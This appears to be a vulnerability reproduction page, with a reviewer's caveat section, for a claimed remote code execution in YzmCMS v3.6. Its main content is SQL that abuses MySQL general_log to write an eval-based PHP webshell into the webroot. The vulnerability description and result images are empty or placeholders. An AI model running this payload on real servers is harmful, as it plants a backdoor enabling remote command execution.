



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：backendSQLconsolepermission/sql_execute; DBglobal-logprivilege;Windowswebrootwritable/PHPexec

- **适用与权限边界（1）**：与647日志写脚本段同链，但本篇省略全部身份/SQL功能前提，标题RCE易误解匿名。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：三图指5.4缓存RCE目录，机制不同需核图错配；最后image缺执行结果。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（3）**：硬编码E盘路径及$_POST\[cmd\]旧PHP未引号常量依版本；没有关闭日志/恢复原路径。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（4）**：应合并同链保留原语限制，而非单独新漏洞。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# YzmCMS v3.6 远程命令执行

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS v3.6

三、复现过程
------------

Payload：

    show variables like '%general%';   #查看配置
    set global general_log = on;        #开启general log模式
    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
    select '<?php eval($_POST[cmd]);?>';   #写入shell

##### 1、执行sql语句，查看mysql日志配置情况

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load\_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

#### 3、分别执行下列sql语句，将脚本代码写入文件：

    set global general_log = on;         

    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>';

#### 4、提交参数，执行脚本代码：

image
